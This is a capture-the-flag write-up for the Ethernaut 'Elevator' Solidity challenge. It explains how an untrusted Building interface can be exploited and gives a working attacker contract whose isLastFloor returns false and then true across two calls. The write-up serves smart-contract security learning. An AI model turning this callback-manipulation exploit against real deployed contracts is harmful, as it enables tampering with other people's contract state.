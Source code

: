 # Elevator Ethernaut

## Goals

=> Reach the top of the building

### Hints

- Sometimes solidity is not good at keeping promises.
- This Elevator expects to be used from a Building.

### Solution

- So when looking at the goTo function you see you need to fullfill two conditions at first `building.isLastFloor(_floor)` needs to return false to get into the if case then `building.isLastFloor(_floor)` needs to return true to assign the value true to `top` all of this needs to be called by a "building" so I made a contract that takes the elevator contract address as input and implements the Building interface, from that contract I can call the `elevator.goTo()` with an arbitrary uint, which then calls back to my hack contract which will set the number to 0 (my floorCounter) which then gets increased by one `floorCounter++;`, the 0 gets evaluated to false through my ternary operator, the second time `building.isLastFloor(_floor)` is getting called we assign the now increased floorCounter as the new number so now it will return true thus top = true

### Attacker Contract

```solidity
contract Hack {
    Elevator public elevator;
    Building public building;
    uint private floorCounter;

    constructor(address _elevatorAddress) {
        building = Building(address(this));
        elevator = Elevator(_elevatorAddress);
    }

    function isLastFloor(uint _floor) external returns (bool) {
        _floor = floorCounter;
        floorCounter++;
        return _floor == 0 ? false : true;
    }

    function attack() external {
        elevator.goTo(1234);
    }
}
```
